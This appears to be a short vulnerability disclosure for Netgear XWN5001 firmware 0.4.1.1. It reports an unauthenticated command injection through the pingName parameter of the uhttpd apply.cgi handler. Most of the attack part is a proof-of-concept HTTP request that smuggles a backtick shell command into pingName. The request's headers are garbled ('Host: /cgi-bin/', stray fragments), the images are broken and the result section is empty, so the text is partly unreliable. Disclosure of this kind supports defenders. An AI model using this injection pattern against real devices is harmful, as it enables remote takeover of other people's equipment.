


# xwn5001-0.4.1.1
## Firmware version
xwn5001-0.4.1.1

The firmware can be downloaded at https://www.netgear.com/support/product/xwn5001/.
## description
The Netgear xwn5001-0.4.1.1 uhttpd binary contains a OS Command Injection vulnerability, allowing unauthenticated remote attackers to inject arbitrary OS commands and execute them on the server.
## detail
The vulnerability is located in the function at address 0x439D50 of the binary usr/sbin/uhttpd. 

Parameter pingName is passed to system (line 27 in the picture) and cause the issue.

diag:




## Send package

```txt
GET /apply.cgi?c HTTP/1.1
Host: /cgi-bin/
tamp
Accept: 69
Co
Content-Length: 650

pingName=`echo 123 > /poc`&diag_type=1&det_multiplexing=123&submit_flag=diag
```

## Result

